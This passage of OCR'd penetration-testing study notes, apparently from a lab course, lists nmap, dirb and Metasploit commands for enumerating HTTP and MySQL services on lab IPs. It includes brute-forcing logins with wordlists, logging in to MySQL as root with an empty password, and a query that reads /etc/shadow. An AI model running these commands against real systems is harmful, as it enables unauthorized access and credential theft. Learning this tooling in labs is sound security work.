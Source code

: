             - `nmap -p80 -sV -O 10.4.16.17`
            - `whatweb 10.4.16.17`
            - `http 10.4.16.17`
            - `dirb [<http://10.4.16.17>](<http://10.4.16.17/>)`
            - `browsh --startup-url <http://10.4.16.17/Default.aspx`>
            - `nmap --script=http-enum -sV -p80 10.4.21.207` - http enum nmap script
            - `nmap -sV -p 80 10.4.21.207 -script banner`
            - `nmap --script=http-methods --script-args http-methods.url-path=/webdav/ -p80 10.4.21.207` - http methods nmap script
            - `curl 192.199.232.3 | more` - curl cmd
            - `use auxiliary/scanner/http/brute_dirs` - Directory brute-force
            - `use auxiliary/scanner/http/http_version` - http version
            
            **HTTP Login**
            
            - `msfconsole`
            - `use auxiliary/scanner/http/http_login`
            - `set RHOSTS 192.199.232.3`
            - `set USER_FILE /tmp/users`
            - `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
            - `set VERBOSE false`
            - `set AUTH_URI /dir/`
            - `exploit`
        - MYSQL
            
            MYSQL - an open-source relational database management system, used to add, access and process data stored in a server database using the SQL (Structured Query Language) syntax. It's also included in the LAMP technology stack (Linux, Apache, MySQL, PHP) to store and retrieve data in well-known applications, websites and services. Default MYSQL port is **3306**
            
            - `nmap -sV -p3306 192.49.51.3`
            - `mysql -h 192.49.51.3 -u root`
            - `mysql > show databases;`
            - `mydql> select load_file(”/etc/shadow”);`
            
            **Metasploit Enum**
            
            - `msfconsole`
                
            - `use auxiliary/scanner/mysql/mysql_schemadump` - schema dump
                
            - `set RHOSTS 192.49.51.3`
                
            - `set USERNAME root`
                
            - `set PASSWORD "”`
                
            - `exploit`
                
            - `use auxiliary/scanner/mysql/mysql_writable_dirs` - writable dirs
                
            - `set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt`
                
            - `set RHOSTS 192.49.51.3`
                
            - `set VERBOSE false`
                
            - `set PASSWORD "”`
                